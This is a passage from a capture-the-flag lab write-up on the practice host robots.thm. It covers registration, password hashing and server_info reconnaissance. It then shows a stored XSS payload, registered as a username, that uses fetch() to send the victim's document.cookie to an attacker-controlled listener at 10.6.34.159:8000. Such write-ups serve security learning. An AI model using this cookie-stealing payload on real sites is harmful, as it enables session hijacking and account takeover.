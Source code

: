If we go to `/harm/to/self`, we get redirected to `robots.thm`, let's add it to `/etc/hosts`:

```
echo '10.10.45.12 robots.thm' | sudo tee -a /etc/hosts
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250314141610.png)

If we go to register, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250314141630.png)

We can try registering a username and check the behavior, the way the password gets structured the first time is already told by the page, this is a big hint, let's keep on going, for example, let's create an account with these credentials:

```
testuser:05/05/2000
```

Now, let's try to log in and see the response:

```
echo -n "testuser0505" | md5sum
20baf68c53da16fffc91660efd9ef401
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250314150509.png)

We get a redirection to `index.php`, we can also see something interesting in here:

![](gitbook/cybersecurity/images/Pasted%20image%2020250314150624.png)

We got something called `server_info`, something way too interesting in here is this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250314150733.png)

For example `allow_url_fopen`, `allow_url_include` and `file_uploads` are enabled, this means that this page could be vulnerable to LFI, let's try to search for a way to exploit this.

## EXPLOITATION

***

Going back at the register page, I tried registering an username using `xss`, a simple xss payload at the username, then, i tried logging in and this happened:

![](gitbook/cybersecurity/images/Pasted%20image%2020250314181227.png)

There we go, XSS is possible in this page, we can craft a payload to get admin cookie and bypass the login page, let's register a username with these credentials:

```
<script>fetch("http://10.6.34.159:8000/?cookie="+document.cookie)</script>:01/01/2000
```

Now, we must convert this to get our md5 password:

